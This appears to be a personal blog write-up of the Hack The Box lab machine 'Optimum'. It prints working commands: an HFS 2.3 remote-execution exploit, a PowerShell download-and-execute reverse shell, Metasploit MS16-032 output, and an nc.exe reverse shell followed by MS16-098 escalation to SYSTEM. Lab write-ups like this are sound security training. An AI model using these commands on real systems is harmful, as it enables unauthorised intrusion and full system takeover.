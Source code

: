 ```yaml
---
layout: post
title:  "HTB: Optimum"
date:   2021-03-10 20:30:00 +1100
category: hacking
---
```


## Optimum
Optimum was after Nibbles; I went in blind and struggled a bit.

## Ports
HTTP only. Well, that's a start.

## HTTP
On the webpage we see something called "HttpFileServer 2.3" is running; we can searchsploit this and find it's trivially exploitable. There is a python exploit:

``
python3 /opt/htb/optimum/49125.py 10.10.10.8 80 "command goes here"
``

So I use this to get a Nishang (powershell) reverse shell like I did for Devel:

``
python3 /opt/htb/optimum/49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1')"
``

And from there it's user.txt. Now what? 

## Privesc
I run *systeminfo*, capture the output and run it against Windows Exploit Suggester NextGen and get information overload; it's not clear what the best option is. I upload WinPEAS both as a batch file *and* as binaries but it doesn't seem to want to run, at all. 

After some beating about the bush, I google for the privesc vulnerability. It's (intended to be) MS16-032, or a vulnerability in the Windows Secondary Logon Service. There are a variety of Powershell exploits, but I can't get them to run. 

After a while I relent, and run the whole thing through Metasploit. This uses *msf6 exploit(windows/http/rejetto_hfs_exec)* for the foothold. I run *msf6 post(multi/recon/local_exploit_suggester)* and it does point out:

>[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.

I run this, and the second time I try it works:

{% highlight shell %}
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\GafcUZnZTQ.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1716

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2268
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

O6lWUcY8xVTopCWahdbDPygYaYQadWPe
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.7:4444 -> 10.10.10.8:49193) at 2021-03-10 04:20:32 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\GafcUZnZTQ.ps1

meterpreter > shell
Process 456 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami 
whoami
nt authority\system
{% endhighlight %}

## Without MSF
Not satisfied with this - particularly after trying and failing to do it via PS1 scripts - I look at another writeup. This one uses an entirely different privesc vulnerability (MS16-098), with a precompiled [binary](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe).

In order to run this I need nc on the box, so I copy it up from my powershell reverse shell, along with the exploit:


{% highlight shell %}
──(root💀kali)-[/opt/htb/optimum]
└─# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.8] 49180
cd CWindows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

:PS C:\Users\kostas\Desktop>\Temp
                   
PS C:\Temp> iwr http://10.10.14.7/41020.exe -Outfile 41020.exe
PS C:\Temp> iwr http://10.10.14.7/nc.exe -Outfile nc.exe
PS C:\Temp> dir
Directory: C:\Temp

Mode                LastWriteTime     Length Name 
----                -------------     ------ ----
-a---         16/3/2021   8:37 ??     560128 41020.exe
-a---         16/3/2021   8:40 ??      59392 nc.exe 
{% endhighlight %}

Next, I use the foothold exploit to trigger a netcat shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/optimum]
└─# python3 /opt/htb/optimum/49125.py 10.10.10.8 80 "C:\Temp\nc.exe -e cmd.exe 10.10.14.7 445"                                 
http://10.10.10.8:80/?search=%00{.+exec|C%3A%5CTemp%5Cnc.exe%20-e%20cmd.exe%2010.10.14.7%20445.}
{% endhighlight %}

And then I can fire the exploit:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/optimum]
└─# nc -nvlp 445       
listening on [any] 445 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.8] 49185
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>cd C:\Temp
cd C:\Temp

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Temp

16/03/2021  08:40 ��    <DIR>          .
16/03/2021  08:40 ��    <DIR>          ..
16/03/2021  08:37 ��           560.128 41020.exe
16/03/2021  08:40 ��            59.392 nc.exe
               2 File(s)        619.520 bytes
               2 Dir(s)  31.858.794.496 bytes free

C:\Temp>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
whoami
nt authority\system
{% endhighlight %}

At the end of the day that's pretty straightforward but there's a lot for me to work on here.
